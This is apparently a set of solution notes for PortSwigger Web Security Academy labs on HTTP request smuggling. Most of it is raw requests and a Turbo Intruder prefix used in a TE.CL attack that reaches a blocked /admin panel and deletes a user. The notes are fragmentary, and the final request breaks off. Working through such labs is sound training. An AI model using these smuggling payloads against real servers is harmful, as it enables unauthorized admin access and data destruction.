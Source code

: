 ```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

x=x

---

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

Here's a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

Goal:
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.



#### This will prefix the victim's request. Edit it to achieve the desired effect.
```
<code in turbo intruder>


prefix = '''GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''
```

---
3 requests..

```
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```

---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
